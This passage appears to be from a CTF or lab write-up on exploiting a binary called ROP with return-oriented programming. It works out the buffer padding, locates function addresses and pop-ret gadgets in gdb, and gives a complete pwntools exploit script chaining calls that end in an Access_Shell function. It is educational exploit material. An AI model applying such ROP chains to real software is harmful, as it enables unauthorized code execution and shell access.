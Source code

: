 As you can see, 130 bytes is more than what we need. We only need 130 - 18 = 112 bytes for padding.

##### Finding Gadgets & Function Addresses
Finding address of the functions is easy. We can use gdb, add a breakpoint, and then using ```p &function``` command while the program is running:

![image](./pics/funcaddress.png)

For gadgets, we need gadgets in the form of ```pop ret```. We can find these gadgets using gdb-peda or pwntools libraries.

So we can install peda, add a breakpoint, and then run the following command:
```
gdb-peda$ ropgadget
```

![image](./pics/gadgets.png)

##### Writing & Running The Exploit
Now we can write our [exploit](./exploit2.py):
```python
from pwn import *

padding  = b"A"*112
cor_addr = 0x8049256
wro_addr = 0x804929e
acc_addr = 0x8049333
pop_ret  = 0x8049022
pop3_ret = 0x80494f1

payload  = padding
payload += p32(cor_addr)   # correct_answer
payload += p32(pop_ret)
payload += p32(0xdabbadaa) # correct_answer arg
payload += p32(wro_addr)   # wrong_answer
payload += p32(pop3_ret)
payload += p32(0xfacebaad) # wrong_answer arg1
payload += p32(0xfacefeed) # wrong_answer arg2
payload += p32(0xfacedead) # wrong_answer arg3
payload += p32(acc_addr)   # Access_Shell

with open('input.txt', 'wb') as f:
    f.write(payload)

proc = process(['./ROP','aaa'])
proc.interactive()
```
And we can run it:
```bash
```